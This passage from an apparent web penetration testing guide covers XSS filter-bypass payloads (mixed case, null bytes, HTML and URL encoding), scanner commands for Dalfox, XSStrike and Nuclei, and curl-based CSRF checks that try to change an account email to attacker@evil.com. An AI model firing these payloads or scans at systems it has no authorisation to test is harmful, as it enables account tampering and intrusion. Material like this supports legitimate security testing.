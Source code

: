 ```html

<!-- Case variation -->
<ScRiPt>alert(1)</ScRiPt>
<IMG SRC=x ONERROR=alert(1)>

<!-- Null bytes -->
<scri%00pt>alert(1)</scri%00pt>

<!-- HTML encoding -->
&#60;script&#62;alert(1)&#60;/script&#62;

<!-- URL encoding -->
%3Cscript%3Ealert(1)%3C/script%3E
```

### XSS Automation

```bash
# Dalfox (fast XSS scanner)
dalfox url http://target.com/search?q=test

# XSStrike
python3 xsstrike.py -u "http://target.com/search?q=test"

# Nuclei with XSS templates
nuclei -u http://target.com -t ~/nuclei-templates/cves/ -t ~/nuclei-templates/vulnerabilities/xss/

# Burp Suite Scanner (Professional)
# 1. Send request to Scanner
# 2. Right-click → Scan → XSS
```

---

## Cross-Site Request Forgery (CSRF)

### CSRF Detection

**Check for CSRF protection:**

```bash
# 1. Inspect form for CSRF token
curl -s http://target.com/settings | grep -i "csrf"

# Secure example:
# <input type="hidden" name="csrf_token" value="a1b2c3d4e5f6...">

# 2. Test without token
curl -X POST http://target.com/settings \
    -b "session=xyz" \
    -d "email=attacker@evil.com"

# Expected (secure): 403 Forbidden or "Invalid CSRF token"
# Vulnerable: 200 OK (email changed)

# 3. Test with invalid token
curl -X POST http://target.com/settings \
    -b "session=xyz" \
    -d "email=attacker@evil.com&csrf_token=invalid"

# Should reject request
```
